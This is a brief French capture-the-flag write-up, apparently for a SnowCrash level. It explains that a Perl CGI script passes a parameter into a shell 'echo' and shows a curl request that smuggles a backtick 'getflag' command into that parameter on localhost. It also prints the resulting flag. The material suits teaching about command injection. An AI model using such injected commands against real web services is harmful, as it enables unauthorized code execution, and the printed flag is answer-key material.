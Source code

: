 Dans ce niveau avec ```ls``` on voit un fichier ```level04.pl``` donc un script perl

Quand on ```cat level04.pl``` on voit une fonction qui execute la commande shell ```echo $y 2>&1```

Le param qui est passe est 'x' donc on va ssayer de lui passer ```getlfag```

On utilise curl avec ```curl "http://localhost:4747/level04.pl?x=\`getflag\`"``` et on obtient le flag = ```ne2searoevaevoem4ov4ar8ap```